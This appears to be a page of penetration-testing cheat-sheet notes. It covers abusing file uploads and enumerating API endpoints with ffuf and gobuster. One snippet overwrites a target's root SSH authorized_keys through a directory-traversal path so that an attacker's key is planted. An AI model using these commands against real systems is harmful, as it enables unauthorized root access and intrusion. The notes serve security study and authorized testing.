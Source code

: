 ## File Uploads

* upload and find path to the file to execute it
* if execution not possible then try overwriting system files if directory traversal aso possible:

```bash

# overwrite ssh keys

# craft malicious key

cat bad.pub > authorized_keys

# overwrite auth keys with attackers pulic key

http://10.10.10.xxx /menu.php?file=../../../../../root/.ssh/authorized_keys

```


## API


### identify endpoints

* look for version conventions like `/some_service/v1` or v2 or v3 etc.
* Prepare pattern for ffuf to identify api endpoints

```bash

ffuf -w /usr/share/seclists/Discovery/Web-Content/common.txt -u https://ip/FUZZ/v1/ -mc 200

```

Or use `gobuster`

`gobuster dir -u http://192.168.50.16:5002 -w /usr/share/wordlists/dirb/big.txt -p pattern`

where pattern is like 

```txt
{GOBUSTER}/v1
{GOBUSTER}/v2
{GOBUSTER}/v3
```

### identify services

Once `endpoint` identifued, look for services


```bash

ffuf -w /usr/share/seclists/Discovery/Web-Content/common.txt -u https://ip/endpoint_name/v1/FUZZ -mc 200

```
